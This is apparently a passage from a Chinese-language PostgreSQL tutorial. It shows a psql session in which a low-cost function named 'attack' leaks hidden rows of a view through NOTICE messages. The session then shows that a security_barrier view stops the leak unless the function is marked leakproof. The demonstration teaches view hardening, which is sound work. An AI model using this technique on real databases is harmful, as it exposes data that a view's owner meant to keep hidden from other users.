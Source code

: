 ```  
digoal=> create or replace function attack(int,int,text,int,text,text,text) returns boolean as $$    
digoal$> declare    
digoal$> begin    
digoal$>   raise notice '%,%,%,%,%,%,%', $1,$2,$3,$4,$5,$6,$7;    
digoal$>   return true;    
digoal$> end;    
digoal$> $$ language plpgsql cost 0.00000000000000000000001;    
CREATE FUNCTION    
digoal=> select * from v_userinfo;    
 id | groupid | username | age  | addr |     email      |    phone        
----+---------+----------+------+------+----------------+-------------    
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999    
(1 row)    
    
digoal=> select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);    
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999    
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999    
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999    
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999    
 id | groupid | username | age  | addr |     email      |    phone        
----+---------+----------+------+------+----------------+-------------    
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999    
(1 row)    
    
设置视图的安全栅栏属性 :     
    
使用普通的函数就不能攻击他了.    
    
digoal=> \c digoal postgres    
You are now connected to database "digoal" as user "postgres".    
digoal=# create view v_userinfo_1 with(security_barrier) as select * from userinfo where id=2;    
CREATE VIEW    
    
digoal=# grant select on v_userinfo_1 to digoal;    
GRANT    
digoal=# \c digoal digoal    
You are now connected to database "digoal" as user "digoal".    
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);    
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999    
 id | groupid | username | age  | addr |     email      |    phone        
----+---------+----------+------+------+----------------+-------------    
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999    
(1 row)    
    
如果把函数设置为leakproof, 就可以被攻击了.(只有超级用户可以创建leakproof函数)    
    
digoal=> \c digoal postgres    
You are now connected to database "digoal" as user "postgres".    
digoal=# alter function digoal.attack(int,int,text,int,text,text,text) leakproof;    
ALTER FUNCTION    
digoal=# \c digoal digoal    
You are now connected to database "digoal" as user "digoal".    
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);    
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999    
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999    
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999    
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999    
 id | groupid | username | age  | addr |     email      |    phone        
----+---------+----------+------+------+----------------+-------------    
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999    
(1 row)   
```  